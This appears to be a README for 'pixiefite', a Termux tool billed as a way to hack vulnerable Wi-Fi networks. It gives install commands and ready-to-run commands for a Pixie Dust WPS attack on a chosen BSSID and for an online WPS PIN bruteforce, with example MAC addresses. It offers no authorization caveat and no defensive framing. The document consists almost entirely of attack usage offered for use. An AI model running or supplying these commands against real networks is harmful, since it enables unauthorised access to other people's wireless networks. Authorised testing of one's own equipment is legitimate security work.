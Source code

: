 # pixiefite
Hack vulnerable Wi-Fi networks using Termux (rooted)

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
git clone https://github.com/vladimir127001/pixiefite
cd pixiefite
chmod +x pixiefite0.0.1.py
```

#### Help : `sudo python main --help`
#### Example : `sudo python pixiefite0.0.1.py -i wlan0 -K`

#### Usage: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python pixiefite0.0.1.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python pixiefite0.0.1.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python pixiefite0.0.1.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

---
